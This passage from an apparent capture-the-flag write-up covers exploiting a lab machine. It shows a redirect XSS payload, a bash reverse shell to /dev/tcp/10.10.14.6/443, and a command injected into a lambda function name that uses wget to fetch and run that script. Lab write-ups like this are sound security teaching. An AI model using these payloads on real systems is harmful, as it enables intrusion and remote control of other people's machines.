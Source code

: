 After a minute or so, there’s a request at the webserver:

```
10.10.11.112 - - [25/Aug/2021 15:06:11] "GET /xss-6.js HTTP/1.1" 200 -

```

Four seconds later ICMP arrives:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:06:15.548696 IP 10.10.11.112 > 10.10.14.6: ICMP echo request, id 604, seq 1, length 64
15:06:15.548734 IP 10.10.14.6 > 10.10.11.112: ICMP echo reply, id 604, seq 1, length 64

```

That’s remote RCE!

#### Alternative to IFrame

When talking to IppSec about how I solved this, he pointed out that my original XSS payload would have actually made this much easier. Instead of loading remote script, I can send:

```

<script>document.location="http://127.0.0.1:8080"</script>

```

This will redirect the entire browser session over to the dashboard, and, as long as the automation is done with a full emulated browser (which it is), it will load the page and the JavaScript, loading the full application.

#### Shell

I’ll create a simple reverse shell script, `shell.sh`:

```

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1

```

I’ll submit a lambda again, this time with the name:

```
--function-name 'ex; wget 10.10.14.6/shell.sh -O /tmp/.0xdf.sh; bash /tmp/.0xdf.sh'

```

This payload will request `shell.sh` from my server and store it in `/tmp/.0xdf.sh`, and then run it with Bash.

After a couple minutes it requests the XSS payload, and then four seconds later the shell:
